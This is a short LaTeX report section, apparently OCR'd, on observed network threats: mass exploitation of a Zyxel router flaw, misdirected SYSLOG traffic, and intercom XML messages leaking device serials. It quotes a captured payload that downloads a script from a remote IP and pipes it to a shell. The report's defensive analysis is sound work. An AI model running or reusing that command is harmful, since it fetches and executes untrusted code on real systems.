 \documentclass[10pt,a4paper]{report}
\begin{document}
\section{Mass Exploitation of Devices}
Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed. A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
\begin{verbatim}
bash -c "curl http://92.60.77.85/z -o-|sh";
\end{verbatim}
This case underscores the need for timely patching and proactive defense mechanisms to mitigate the risks associated with known vulnerabilities.

\section{SYSLOG Misconfigurations}
Another observed issue was the improper configuration of SYSLOG services. Devices inappropriately sent SYSLOG messages to blackhole networks. For example, a SYSLOG message from a misconfigured firewall contained the following:
\begin{verbatim}
2024-10-01 12:49:18 IP x.x.196.218.45389 > x.x.x.x.514: SYSLOG local0.info
\end{verbatim}
This type of misconfiguration can result in the unintentional exposure of internal system information, creating vulnerabilities for exploitation.

\section{Intercom Systems and XML Messages}
Misconfigured intercom systems were also identified during the analysis. For example, an intercom system transmitted an XML-based message containing sensitive details, such as device serial numbers and IP addresses:
\begin{verbatim}
<videoIntercomMsg>
<header>
<method>1</method>
<action>1</action>
<from><deviceSN>Q05586499</deviceSN></from>
</header>
</videoIntercomMsg>
\end{verbatim}
Such exposures highlight the risks associated with improper device configuration and the potential for unauthorized access to sensitive systems.
\end{document}
